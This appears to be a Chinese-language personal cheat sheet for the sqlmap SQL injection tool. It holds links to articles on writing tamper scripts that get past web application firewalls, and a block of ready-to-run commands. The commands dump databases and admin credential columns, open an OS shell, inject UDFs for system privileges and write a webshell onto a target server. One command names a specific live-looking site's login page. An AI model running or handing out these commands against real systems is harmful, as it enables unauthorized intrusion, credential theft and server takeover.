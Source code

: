 [手把手教你编写 SQLMap 的 Tamper 脚本过狗](https://mp.weixin.qq.com/s/2Nw1CbXsrEz0sM3GbOo68g)
[Sqlmap学习 -- Tamper绕过脚本](https://mp.weixin.qq.com/s/C7N_FSf7CLulgiEBAGSwXA)
[最新SQLMap进阶技术](https://mp.weixin.qq.com/s/xJgS2HYLVRmX1TuTEwHZCg)
[Sqlmap学习 -- Tapmer绕过脚本(三)](https://mp.weixin.qq.com/s/D83ULFfD0Shpcrbd13zAqg)

# sqlmap

https://blog.csdn.net/Litbai_zhang/article/details/87939785

自写脚本
https://www.cnblogs.com/afanti/p/9949660.html
https://xz.aliyun.com/t/3245#toc-4

测试 post 注入

```sh
sqlmap -u http://vip.fj0730.cn/login.asp --forms
sqlmap -u http://url.php?id=1 --current-db --batch
sqlmap -u http://url.php?id=1 --current-user
sqlmap -u http://url.php?id=1 --dbs # all databases
sqlmap -u http://url.php?id=1 --is-dba
sqlmap -u http://url.php?id=1 -D test --tables           # 得到admin
sqlmap -u http://url.php?id=1 -D test -T admin --columns # 得到admin,pass
sqlmap -u http://url.php?id=1 -D test -T admin -C admin,pass --dump
sqlmap -u http://url.php?id=1 -D test -T admin -C admin,pass --dump --hex
sqlmap -u http://url.php?id=1 --os-shell
sqlmap -u http://url/jsrpc.php?profileIdx2= -p "profileIdx2" --dbs # -p 注入参数名
sqlmap -u http://url.php?id=1 --parse-errors # 查看出错原因
sqlmap -u "URL" --udf-inject   # 导入用户自定义函数（获取系统权限！）
sqlmap -u "URL" --data"id=3" #post注入
--priviledges # 用户权限

sqlmap -r b.txt --passwords --batch     # bp抓包保存为 b.txt
sqlmap -r Filename.txt --dbs --level=3
sqlmap -l log.txt                       # 使用 bp log文件 （勾选上options中的Misc中的proxy）

sqlmap -u "<url>" --is-dba #  检测有无dba权限可写入

sqlmap.py -d "mysql://user:pass@host:port/<dbname>"  # 连接数据库
sqlmap.py -u "<url>" -safefreq # 延时注入
sqlmap.py -u "<url>" --delay 1 # 延时注入
sqlmap.py -u "<url>" --file-write "./mst.txt" --file-dest "d:/www/1.html" # 写入Webshell,  --file-write 本地文件路径, --file-dest 目标文件地址
sqlmap.py -u "<url>" --tamper="randomcase.py" # 使用Tamper脚本
sqlmap.py -m url_list.txt      # 批量检测SQL注入, 每行一个
sqlmap.py -l burp.log --batch -smart # 对burp.log中保存的所有 reqest进行注入扫描, burp设置： Logger: On, √上Proxy或其他

--user-agent="Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0"
--proxy=http://127.0.0.1:8080
--delay=1
```

## manual
